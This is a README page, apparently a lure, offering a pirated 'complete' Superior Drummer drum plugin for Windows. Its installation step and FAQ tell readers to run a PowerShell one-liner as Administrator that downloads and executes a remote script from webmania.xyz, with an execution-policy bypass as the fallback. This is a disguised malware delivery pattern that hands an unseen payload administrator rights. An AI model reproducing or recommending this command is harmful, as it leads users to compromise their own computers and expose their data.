

<div align="center">


<br>


# Superior Drummer Complete Professional Studio Setup
**Drum samples · Mixer · MIDI grooves**
<br>
**Drum samples · Mixer · MIDI grooves**
<br>
Premium · Pro · Complete · Windows



**Superior Drummer complete — multi-channel drum kits, room mics, mixer and MIDI grooves all enabled.**

</div>

---

> Program lifelike drums with room mics — Superior Drummer pro kits and mixer enabled in your DAW.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎛️ **Studio modules** — Premium instruments and effects enabled.
🔌 **Plugin ready** — VST workflow on Windows DAWs.
🎚️ **Mix pipeline** — Presets and routing profiles included.
📦 **Offline studio** — Work locally after setup.
🎹 **Sound libraries** — Factory and expansion content supported.
🖥️ **Windows optimized** — Built for audio workstations.
⚡ **One command setup** — PowerShell handles install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 80 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 80 gb free space.
</details>


TAGS
superior-drummer, toontrack-superior-drummer, drum-samples, drum-plugin, acoustic-drums, vst-drums, toontrack, drum-library, music-production, drum-sampling, studio-drums, midi-drums, superior-drummer-3, drum-vst, drum-production
